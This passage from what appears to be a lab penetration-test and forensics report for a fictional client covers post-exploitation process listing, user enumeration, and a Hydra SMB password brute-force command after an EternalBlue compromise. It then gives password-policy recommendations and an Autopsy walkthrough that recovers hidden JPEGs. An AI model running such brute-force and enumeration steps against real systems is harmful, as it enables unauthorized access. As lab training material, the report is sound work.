        <td>388</td>
        <td>lsm.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\lsm.exe</td>
    </tr>
    <tr>
        <td>616</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td></td>
    </tr>
    <tr>
        <td>680</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\NETWORK SERVICE</td>
        <td></td>
    </tr>
    <tr>
        <td>732</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\LOCAL SERVICE</td>
        <td></td>
    </tr>
    <tr>
        <td>800</td>
        <td>448</td>
        <td>LogonUI.exe</td>
        <td>x64</td>
        <td>1</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\system32\LogonUI.exe</td>
    </tr>
    <tr>
        <td>836</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td></td>
    </tr>
    <tr>
        <td>860</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td></td>
    </tr>
    <tr>
        <td>908</td>
        <td>492</td>
        <td>spoolsv.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Windows\System32\spoolsv.exe</td>
    </tr>
    <tr>
        <td>968</td>
        <td>1408</td>
        <td>GoogleCrashHandler.exe</td>
        <td>x86</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Program Files (x86)\Google\Update\1.3.36.372\GoogleCrashHandler.exe</td>
    </tr>
    <tr>
        <td>996</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\LOCAL SERVICE</td>
        <td></td>
    </tr>
    <tr>
        <td>1056</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\LOCAL SERVICE</td>
        <td></td>
    </tr>
    <tr>
        <td>1288</td>
        <td>492</td>
        <td>vmtoolsd.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td>C:\Program Files\VMware\VMware Tools\vmtoolsd.exe</td>
    </tr>
    <tr>
        <td>1300</td>
        <td>492</td>
        <td>taskhost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\LOCAL SERVICE</td>
        <td>C:\Windows\system32\taskhost.exe</td>
    </tr>
    <tr>
        <td>1600</td>
        <td>492</td>
        <td>SearchIndexer.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td></td>
    </tr>
    <tr>
        <td>1688</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\LOCAL SERVICE</td>
        <td></td>
    </tr>
    <tr>
        <td>1820</td>
        <td>492</td>
        <td>svchost.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\SYSTEM</td>
        <td></td>
    </tr>
    <tr>
        <td>1836</td>
        <td>492</td>
        <td>msdtc.exe</td>
        <td>x64</td>
        <td>0</td>
        <td>NT AUTHORITY\NETWORK SERVICE</td>
        <td></td>
    </tr>
  </tbody>
</table>

*Display of Process List*

## Task 2: User Enumeration via Windows Command

### Step 1
To fulfill the assessment's objective, the `net users` command was executed from a command prompt spawned within the Meterpreter session. This command provided a comprehensive list of all local user accounts on the target system, a list that would then be used for the subsequent brute-force attack.

### Result
* Administrator
* Guest
* student


## Task 3: Creation of a Custom Wordlist

A custom wordlist of common passwords was created to perform a highly targeted attack. The wordlist included a list of approximately ten common passwords.

Console | Infosec Learning


### Task 4: Use Hydra against SMB Service with Enumerated Usernames and Wordlist

#### Step 1:
Hydra attack executed with the command `hydra -L user.txt -P password_list.txt smb://192.168.57.20`

#### Result
* Hydra's output confirmed the successful discovery of a valid username and password combination.
* This result provides irrefutable proof that the identified user account was compromised.


### Vulnerability Detection

> This finding, a direct result of the initial EternalBlue compromise, shows how a single network vulnerability can provide a devastating foothold for further attacks that exploit human-centric weaknesses like poor password hygiene.

### Task 5 Risk Discussion and Password Policy Recommendation

#### Risk Analysis:

#### Business Risk
The CVSS score for EternalBlue provides a crucial context for understanding its severity, but a comprehensive risk discussion requires an analysis of its business impact and the likelihood of exploitation.

**EternalBlue Risk:** The likelihood of this vulnerability being exploited is rated as ***High***. This is due to the widespread availability of public exploit code and automated tools, which require minimal skill to operate.

The impact is rated as Critical because a successful exploit leads to a complete system takeover and could result in data breaches, regulatory fines, and business disruption.

**Weak Password Risk:** The likelihood of a credential brute-force attack succeeding is rated as *High* because a simple, targeted wordlist was sufficient to compromise a user account. The impact is rated as high as this compromise enables an attacker to move laterally across the network, access sensitive data, and escalate privileges. This is a significant risk that underscores the need for robust user security controls.

Remediation and Strategic Recommendations

*   **Enforce Multi-Factor Authentication (MFA):** Implement mandatory MFA for all user accounts, especially those with privileged access.
*   **Password Blacklist:** Prevents users from selecting common, breached, or easily guessable passwords (e.g., 'password123', 'qwerty', or those from past data breaches).
*   **Complexity Rules:** Requires a mix of uppercase/lowercase letters, numbers, and special characters.
*   **Password Length:** Prioritizes length over complexity. Minimum length of 15 characters, with a preference for passphrases up to 64 characters
*   Passwordless Authentication: (it relies on biometric identifiers)

  

These recommendations, when implemented, will significantly reduce the risk of future compromises. The findings of this report should not be seen as a one-time event but as an opportunity to institute a culture of proactive and robust security measures.


Phase 4 of the Testing Methodology


# Digital Forensic Incident Response & Evidence Collection and Analysis


## Scope

This report details a forensic analysis of an image file, including hash generation, case setup in Autopsy, hash verification, and the discovery and recovery of hidden image files. A pre-created forensic challenge image file, obtained from Techshied’s environment after an incident, was used to create a new autopsy case. And the goal is to ensure all investigative actions are performed on a preserved copy of the data.

## Verification of Forensic Image Test File

### Step 1: MD5 Hash Creation and Storage

To maintain the integrity of the evidence, an MD5 hash of the original image file created, which creates a unique digital fingerprint that will be used to verify that the file is unmodified or hasn't been altered during the forensic process. It is just simply a fingerprint of the given input.

### Process:

A command-line tool like ***md5sum (Linux/macOS) echo "$(date) $(md5sum 8-jpeg-search.dd)" > hash_verification.txt*** is used. The generated hash value is then saved to a separate text file with the command-line ***cat hash_verification.txt***, which serves as a record of the original state of the evidence.


**Step 2:** Prior to setting up the autopsy case, the command ***sudo autopsy*** was used to be directed to <u>http://localhost:9999/autopsy</u>


## Autopsy Case Setup & Hash Verification

Autopsy is a powerful open-source digital forensics platform or a forensic browser used to analyze disk images and it enabled Michael Cyber Defense us to look at the content of the drive image, so within the case setup, the hash of the evidence file is verified to ensure that the file being analyzed is the same as the original, unaltered evidence.

**Step 3:** A new autopsy case was created, and the image file is added as a data source. During the data source addition process, Autopsy automatically calculates the MD5 hash of the added file. The calculated hash is, then, stored within the case database.


## Task 3: Verifying the hash

The figure below shows the MD5sum of the image and the hash calculated by Autopsy is then compared against the original hash value stored in the in the image file by manually comparing this hash against a known good fingerprint with the one in the image file. A perfect match confirms the integrity of the evidence. That’s not a single file in the image, but that’s the MD5sum for the entire image itself


From there, I am led to my main case management screen. My TechShield autopsy case.


# Task 4: File Analysis & Hidden Image Recovery

The last part of this section comprises of forensic discovery and Hidden image recovery. This is where File Analysis is conducted to discover and recover artifacts not immediately visible, such as hidden or deleted files. In this case, the objective is to find 5 hidden JPG images. The File Analysis gives me a list of files that are inside this image

## Process:

### File Type identification

*   The search box was used to search for files because autopsy can identify files based on their digital signatures and it enables us to identify the timestamp of files written, access, changed, and created including their sizes. That can be broken down in three parts: The written time, which is sometimes called the M-Time, the access time, which is sometimes called the A-Time, and creation time, which is called the C-Time.


*   Navigating to 14 File types > By MIME Type > image/jpeg revealed all files including those that had their extensions changed to conceal them.
*   Before deciding to extract the contents from each file, I used the "Generate MD5 list of files" to button to have the calculated MD5sum values for each file in the current directory


*   Recovery: Using autopsy, the contents within each file are then extracted and the 6 discovered JPEG images are exported from the autopsy to a designated folder for further review.


## Task 5: Significance of Findings

The discovery and recovery of hidden images are significant from a forensic perspective for several reasons:

*   **Intent to Conceal:** The act of hiding files, either by changing their extension or deleting them to leave them in unallocated space, strongly suggests a deliberate attempt to conceal information. This can indicate mens rea (guilty mind) on the part of the suspect.
*   **Key Evidence:** The recovered images themselves can contain crucial evidence. They may be contraband, documents relevant to the case, or show a timeline of events. For example, the metadata (EXIF data) within the images could reveal the date, time, and even the geolocation where the picture was taken, providing a timeline and location for a specific event.
*   **Attacker Behavior:** The methods used to hide the files (e.g., specific file names or directory structures) can reveal the suspect's level of technical sophistication and common operating procedures, which can be valuable for future investigations.
*   **Link to Other Artifacts:** The recovered files can be linked to other artifacts in the case, such as web browser history showing where they were downloaded from or chat logs discussing their existence, helping to build a more complete picture of the events.


# APPENDIX A - TOOLS USED


<table>
  <thead>
    <tr>
        <th>TOOL</th>
        <th>DESCRIPTION</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>**Metasploit**</td>
        <td>Used for exploitation of vulnerable services and vulnerability scanning.</td>
    </tr>
    <tr>
        <td>**Nmap**</td>
        <td>Used for scanning ports on hosts.</td>
    </tr>
    <tr>
        <td>**OpenVAS**</td>
        <td>Used to scan the networks for vulnerabilities.</td>
    </tr>
    <tr>
        <td>**Autopsy**</td>
        <td>Used to connect to conduct Digital Forensic Investigation</td>
    </tr>
  </tbody>
</table>

*Table A.1: Tools used during assessment*


# APPENDIX B - ENGAGEMENT INFORMATION

## Client Information

<table>
  <thead>
    <tr>
        <th>Client</th>
        <th>MichaelCyber Defense</th>
    </tr>
    <tr>
        <th>Primary Contact</th>
        <th>John Doe<br/>CEO</th>
    </tr>
    <tr>
        <th>Approvers</th>
        <th>The following people are authorized to change the scope of engagement and modify the terms of the engagement<br/>● CEO, TechShield<br/>● CISO, TechShield</th>
    </tr>
  </thead>
</table>

## Version Information

<table>
  <thead>
    <tr>
        <th>Version</th>
        <th>Date</th>
        <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
        <td>1.0</td>
        <td>15.09.2025</td>
        <td>Initial report to client</td>
    </tr>
  </tbody>
</table>

## Contact Information

<table>
  <thead>
    <tr>
        <th>Name</th>
        <th>MichaelCyber Defense</th>
    </tr>
    <tr>
        <th>Address</th>
        <th>Berlin, Germany</th>
    </tr>
    <tr>
        <th>Phone</th>
        <th>555-185-1782</th>
    </tr>
    <tr>
        <th>Email</th>
        <th><u>michael@michaelcyberdefense.com</u></th>
    </tr>
  </thead>
</table>

Techshield CONFIDENTIAL Page 14
